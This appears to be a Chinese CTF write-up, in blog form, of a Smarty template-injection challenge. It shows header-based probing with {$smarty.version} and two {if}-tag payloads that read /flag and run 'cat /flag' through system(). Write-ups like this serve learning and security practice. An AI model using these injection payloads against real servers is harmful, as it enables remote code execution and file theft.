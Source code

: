 ```yaml
---
layout: '../../layouts/MarkdownPost.astro'  ## 布局文件
title: 'WEB-smarty模板注入'
pubDate: 2022-010-19
description: '刷题ing'  ## 文章摘要
author: 'Snark'
cover:
    url: 'https://w.wallhaven.cc/full/we/wallhaven-we1ml7.png'  ## 宽屏图片
    square: ''  ## 方形图片
    alt: 'cover'
tags: ["CTF", "WEB", "刷题"]
theme: 'dark'  ## 主题背景色，light或dark
featured: false  ## 是否特色文章
---
```


# WP

## 解题思路

打开容器后，是个这样的界面，注意最下面的Build With Smarty! , 猜测是smarty模板注入。

![](https://i.328888.xyz/2023/03/17/L8hXE.png)

测试模板注入，用bp抓包，然后插入X-Forwarded-For:{$smarty.version}

![](https://i.328888.xyz/2023/03/17/L8d0Q.png)

回显，版本为3.1.30，说明是smarty模板注入
同时回显中也可发现，php版本是7.3.5，那么这样的话<script language="php">phpinfo();</script> ，就无法使用
同时smarty的版本是3，所以{php}{/php}也无法使用。
但是smarty的if标签也可以执行php代码
payload1:

```
{if readfile('/flag')}{/if}
```

payload2:

```
{if system('cat /flag')}{/if}
```
